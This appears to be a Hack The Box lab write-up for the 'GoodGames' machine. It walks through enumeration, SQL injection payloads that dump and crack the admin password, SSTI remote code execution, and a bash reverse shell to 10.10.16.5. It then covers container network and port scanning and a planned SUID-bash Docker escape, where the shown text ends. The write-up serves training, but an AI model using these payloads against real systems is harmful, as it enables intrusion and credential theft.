 ```yaml
---
title: "[HTB] Machine: GoodGames"
description: "[HTB] Machine: GoodGames"
date: 2023-08-18
menu:
  sidebar:
    name: "[HTB] Machine: GoodGames"
    identifier: htb-machine-GoodGames
    parent: htb-machines-linux
    weight: 10
hero: images/goodgames.png
tags: ["HTB", "vhosts", "sqli", "sqli-bypass", "sqli-union", "ssti", "docker escape", "docker-mount"]
---
```


# GoodGames
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.11.130 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-21 19:43 BST
Nmap scan report for 10.10.11.130 (10.10.11.130)
Host is up (0.14s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.51
|_http-title: GoodGames | Community and Store
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
Service Info: Host: goodgames.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.73 seconds
```
- `gobuster`
```
└─$ gobuster dir -u http://goodgames.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt --exclude-length 9265
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://goodgames.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] Exclude Length:          9265
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
2023/08/21 19:51:04 Starting gobuster in directory enumeration mode
===============================================================
/blog                 (Status: 200) [Size: 44212]
/login                (Status: 200) [Size: 9294]
/profile              (Status: 200) [Size: 9267]
/signup               (Status: 200) [Size: 33387]
/logout               (Status: 302) [Size: 208] [--> http://goodgames.htb/]
/forgot-password      (Status: 200) [Size: 32744]

```
- No `vhosts` were found by `ffuf`

- Web server

![](./images/1.png)

## Foothold
- Let's register a user

![](./images/2.png)

![](./images/3.png)

- Trying `SQLI` on request

![](./images/4.png)

![](./images/5.png)

- If we click gear icon in admin's profile page we are redirected to `http://internal-administration.goodgames.htb/`

![](./images/6.png)

![](./images/7.png)

- Let's dump the data from database using `SQLI`, maybe we get lucky and get password
  - `email=' union select 1,2,3,database()-- -&password=test` - Current database
  - `email=' union select 1,2,3,concat(schema_name,':') from information_schema.schemata-- -&password=test` - List databases
  - `email=' union select 1,2,3,concat(table_name,':') from information_schema.tables where table_schema='main'-- -&password=test` - List tables in `main` database
  - `email=' union select 1,2,3,concat(column_name,':') from information_schema.columns where table_name='user'-- -&password=test` - List columns names in `user` table
  - `email=' union select 1,2,3,concat(id,':',name,':',password) from user-- -&password=test` - Dump `user` table
    - `admin:2b22337f218b2d82dfc3b6f77e7cb8ec`

![](./images/8.png)

- Let's crack it
  - `admin:superadministrator`

![](./images/9.png)

- Creds work for `http://internal-administration.goodgames.htb/`

![](./images/10.png)

- We can change username
  - Since it's a `flask` application, it could be vulnerable to `SSTI`

![](./images/11.png)

![](./images/12.png)

- Let's try `id` command to test for `rce`
  - `{{ namespace.__init__.__globals__.os.popen('id').read() }}`

![](./images/13.png)

- Let's get `reverse shell`
  - `{{ namespace.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.16.5/6666 0>&1"').read() }}`
  - It looks like a container

![](./images/14.png)

- We can upgrade the shell via:
  - `script /dev/null -c bash`
  - `python3 -c 'import pty;pty.spawn("/bin/bash");'`
## User
- Enumerate the container
```
root@3a453ab39d3d:/home/augustus# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.19.0.2/16 brd 172.19.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

- I found flag in `augustus` home directory, yet there is no such user in container
```
root@3a453ab39d3d:/home/augustus# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
```
- It could be that the directory is mounted
```
root@3a453ab39d3d:/home/augustus# mount
...
/dev/sda1 on /home/augustus type ext4 (rw,relatime,errors=remount-ro)
...
```
- We can try to guess and ping `172.19.0.1` to see if it's reachable
  - or `for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" &); done;`

```
root@3a453ab39d3d:/home/augustus# for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" &); done;
64 bytes from 172.19.0.1: icmp_seq=1 ttl=64 time=0.111 ms
64 bytes from 172.19.0.2: icmp_seq=1 ttl=64 time=0.044 ms
```
- Now let's port scan
  - `for i in {1..65535}; do echo > /dev/tcp/172.19.0.1/$i && echo "$i open"; done 2>/dev/null`
```
root@3a453ab39d3d:/home/augustus# for i in {1..65535}; do echo > /dev/tcp/172.19.0.1/$i && echo "$i open"; done 2>/dev/null
22 open
80 open
```

## Root
- During the enumeration I found nothing except the fact that I can create files in `augustus` directory from both container and host
  - Moreover the permissions are set `root` when files are created from container
  - So we can copy `bash` binary and try to set `suid` bit from container

![](./images/16.png)
